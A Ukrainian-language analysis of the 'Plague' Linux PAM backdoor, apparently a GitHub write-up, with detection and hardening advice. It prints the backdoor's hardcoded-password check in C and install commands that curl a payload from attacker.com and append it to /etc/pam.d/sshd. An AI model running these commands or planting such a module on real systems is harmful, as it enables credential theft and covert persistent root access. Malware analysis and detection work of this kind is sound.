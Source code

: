 # 🔍 Аналіз Plague PAM Backdoor Malware

## 🔹 Що таке PAM і як воно працює

PAM (Pluggable Authentication Modules) — модульна система автентифікації в Linux. Вона керує тим, як користувачі входять у систему через SSH, sudo, login, gdm тощо. Конфіги знаходяться в `/etc/pam.d/` і викликають відповідні `.so` бібліотеки, які відповідають за авторизацію.

---

## 🔹 Як працює бекдор через підміну PAM модуля

Plague копіюється як `libselinux.so.8` в `/lib/x86_64-linux-gnu/` і підключається до одного з файлів `/etc/pam.d/` через рядок:

```
auth required /lib/x86_64-linux-gnu/libselinux.so.8
```

---

## 🔹 Що відбувається під час логіну

- Користувач вводить логін/пароль
- PAM підвантажує модуль (Plague)
- Модуль виконує свій код: краде логін/пароль, дозволяє вхід через хардкод-бекдор
- Не залишає слідів

---

## 🔹 Технічна структура фальшивого PAM-модуля

`pam_sm_authenticate()` виконує:

1. Збір логіна/пароля
2. Логін у файл або відправка
3. Перевірка на бекдор-пароль
4. Повернення `PAM_SUCCESS`, якщо знайдено

```c
#define BACKDOOR_PASS "h4x0rplague"
if (strcmp(pass, BACKDOOR_PASS) == 0) return PAM_SUCCESS;
```

---

## 🔹 Що дає такий підхід

- Невидимість (виглядає як legit бібліотека)
- Persistence (залишається після оновлень)
- Контроль над усіма логінами (включно з root)

---

## 🔹 Приклад встановлення

```bash
curl -o /tmp/libselinux.so.8 http://attacker.com/pam.so
mv /tmp/libselinux.so.8 /lib/x86_64-linux-gnu/
echo "auth required /lib/x86_64-linux-gnu/libselinux.so.8" >> /etc/pam.d/sshd
```

---

## 🔹 Чому це працює 

- Сидить в серці системи (автентифікація)
- Має root-права
- Не видно в логах
- Виживає після reboot/upgrade

---

## 🔹 Як виявити та захиститися

- Перевірити `/etc/pam.d/*` на сторонні рядки
- Контроль цілісності бібліотек (`AIDE`, `sha256sum`)
- Auditd:

```bash
auditctl -w /lib/.../libselinux.so.8 -p war -k pam_integrity
```

- `chattr +i` для критичних файлів

---

## 🔹 Додаткові методи поширення malware на систему

### 🔸 1. Через RCE або вразливий сервіс:

- Зловмисник використовує віддалену вразливість (наприклад, CVE-2021-3156, Dirty Pipe, PwnKit)
- Завантажує бекдор:

```bash
curl -o /tmp/pam.so http://attacker.com/backdoor.so
```

- Замінює системну бібліотеку або додає новий запис у PAM:

```bash
mv /tmp/pam.so /lib/x86_64-linux-gnu/libselinux.so.8
```

### 🔸 2. Через зламані облікові дані SSH:

- Якщо пароль слабкий або злитий — зловмисник входить і має sudo-доступ
- Дії ідентичні: копіювання модуля, додавання рядка в PAM

### 🔸 3. Через компрометацію CI/CD або внутрішній сервер:

- Бекдор вбудовується в етапи доставки через Jenkins/GitLab Runner
- Потрапляє в продакшн із правами root

### 🔸 4. Через фізичний доступ або інсайдера:

- Під час обслуговування, або якщо диск монтується в іншу систему

---

## 🔹 Інструменти моніторингу і виявлення

- **AIDE / Tripwire** — перевірка цілісності файлів
- **auditd** — моніторинг змін до критичних файлів
- **osquery** — інвентаризація системних бібліотек та PAM-модулів
- **chkrootkit / rkhunter** — базове виявлення руткітів

---

## 🔹 Автоматизований скрипт для пошуку змін у PAM

```bash
#!/bin/bash
for file in /etc/pam.d/*; do
  echo "[+] Аналіз $file"
  grep -E '\.so|auth|session|password' "$file"
done

echo "\n[+] Перевірка libselinux.so.8"
sha256sum /lib/x86_64-linux-gnu/libselinux.so.8
```

---

## 🔹 Рекомендації

- Використовуй `AppArmor` або `SELinux` для контролю доступу до PAM
- Слідкуй за контрольними сумами критичних бібліотек
- Встановлюй 2FA для SSH
- Проводь регулярний аудит PAM конфігів
- Ізолюй та моніторь сервери з правами root доступу

---

> ⚠️ **Увага:** цей бекдор не детектується звичайними антивірусами. Поведінковий аналіз, моніторинг цілісності та контроль над PAM — єдині надійні методи виявлення.

